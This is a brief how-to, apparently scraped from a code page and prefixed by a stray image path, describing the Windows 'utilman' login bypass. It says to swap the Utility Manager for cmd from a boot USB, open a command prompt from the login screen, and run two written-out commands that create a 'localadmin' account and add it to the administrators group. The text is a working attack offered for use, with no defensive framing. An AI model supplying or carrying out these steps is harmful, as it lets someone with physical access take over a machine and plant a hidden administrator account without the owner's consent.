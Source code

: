 After you change the utilman to cmd via a boot usb restart the pc an click on the utilitymanager CMD will open type these in

net user localadmin /add

net localgroup administrators localadmin /add
